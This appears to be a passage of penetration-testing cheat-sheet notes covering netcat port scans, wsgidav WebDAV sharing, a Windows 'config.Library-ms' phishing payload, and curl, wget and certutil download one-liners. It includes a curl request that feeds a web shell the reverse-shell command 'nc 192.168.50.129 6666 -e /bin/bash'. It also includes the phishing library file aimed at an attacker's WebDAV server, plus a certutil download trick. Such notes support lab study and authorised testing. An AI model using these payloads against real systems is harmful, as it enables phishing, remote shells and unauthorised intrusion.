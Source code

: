 -  <mark>CONNECT Port Scan</mark>
```bash
# tcp
# -nvv tells netcat to NOT perform DNS lookup on the remote machine name and be very verbose
# -z specify zero-I/O mode, which is used for scanning and sends no data.
# -w specify the connection timeout in seconds
nc -nvv -z -w [Timeout] [IP Address] [Port Number/Range]
# udp
# -u specify a UDP scan
nc -nvv -u -z -w [Timeout] [IP Address] [Port Number/Range]
```
### wsgidav
-  <mark>Basic Use</mark> #windows 
```bash
# can be a neat way to perform bidirectional file transfer
wsgidav --host=[LOCAL_IP] --port=[Port] --auth=anonymous --root [Web_Root_Path]

# mount and access as share
net use H: \\[IP]:[Port]\DavWWWRoot\
```
- `config.Library-ms` phishing payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[IP]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### curl
-  <mark>Basic Use</mark>
```bash
# -O (capital O) tells curl to save the file with the same name as in the URL. rent name
curl https://[target_URL] -o [filename]
```
- <mark>POST Data with URL-Encoding</mark>
```bash
# Best Used with a Web Shell
curl https://[target_URL] --data-urlencode "cmd=nc 192.168.50.129 6666 -e /bin/bash"
```
 ### wget
-  <mark>Basic Use</mark>
```bash
wget http://[target_URL]
```
 ### certutil
-  <mark>Basic Use</mark>
```bash
certutil -urlcache -f http://[target_URL] [filename]
```